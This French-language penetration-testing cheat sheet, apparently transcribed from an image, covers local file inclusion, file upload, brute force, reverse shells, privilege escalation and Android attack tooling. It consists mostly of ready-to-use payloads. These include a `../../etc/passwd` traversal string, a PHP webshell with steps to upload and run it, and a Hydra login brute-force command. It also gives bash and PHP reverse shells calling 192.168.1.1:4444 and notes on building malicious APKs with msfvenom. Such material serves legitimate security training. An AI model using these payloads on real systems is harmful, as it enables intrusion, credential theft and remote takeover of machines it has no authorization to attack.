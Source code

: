 ### 3.3.2 – LFI (Local File Inclusion)
- **Payload** : `../../../../etc/passwd`
- **Exemple** : lecture de `/etc/passwd`

### 3.3.3 – File Upload
- **Vulnérabilité** : absence de vérification MIME/type
- **Payload** : webshell PHP `<?php system($_GET['cmd']); ?>`
- **Étapes** :
  1. Uploader la webshell
  2. Exécuter la commande : `http://host/uploads/shell.php?cmd=id`
  3. Obtenir reverse shell

### 3.3.4 – Brute Force
- **Hydra** : attaque par dictionnaire
- **Commande** :
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

---

## 3.4 – Reverse Shells

### Outils :
- **Netcat** : `nc -lvp 4444`
- **Bash** : `bash -i >& /dev/tcp/192.168.1.1/4444 0>&1`
- **PHP** : `php -r '$sock=fsockopen("192.168.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

---

## 3.5 – Privilege Escalation

### Linux :
- **SUID** : `find / -perm -4000 -type f 2>/dev/null`
- **Kernel Exploits** : Searchsploit (pkexec, ptrace)
- **Configurations faibles** : sudo without password

### Windows :
- **PowerShell** : `Get-ChildItem -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\Run`
- **Exploits** : MS17-010 (EternalBlue)

---

## 3.6 – Mobile Pentesting (Android & iOS)

### Android :
- **msfvenom** : génération d’APK malveillant
- **Metasploit** : `use exploit/multi/handler`
- **APKTool** : décompilation et injection
